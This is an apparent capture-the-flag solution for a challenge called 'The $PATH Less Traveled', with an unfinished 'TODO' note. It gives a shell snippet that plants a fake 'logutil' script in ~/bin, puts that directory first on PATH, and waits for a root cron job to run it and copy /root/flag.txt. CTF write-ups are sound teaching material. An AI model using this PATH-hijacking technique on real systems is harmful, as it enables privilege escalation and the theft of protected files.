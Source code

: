 # The $PATH Less Traveled

## Solution:

TOdO rework this
```sh
# Create fake logutil in user-owned directory
mkdir -p ~/bin
echo -e '#!/bin/bash\ncat /root/flag.txt > /home/ctf/flag_copy.txt' > ~/bin/logutil
chmod +x ~/bin/logutil

echo 'export PATH=/home/ctf/bin:$PATH' >> ~/.bashrc
source ~/.bashrc
# Wait ~1 minute for cron to run, then watch output or redirect somewhere
```

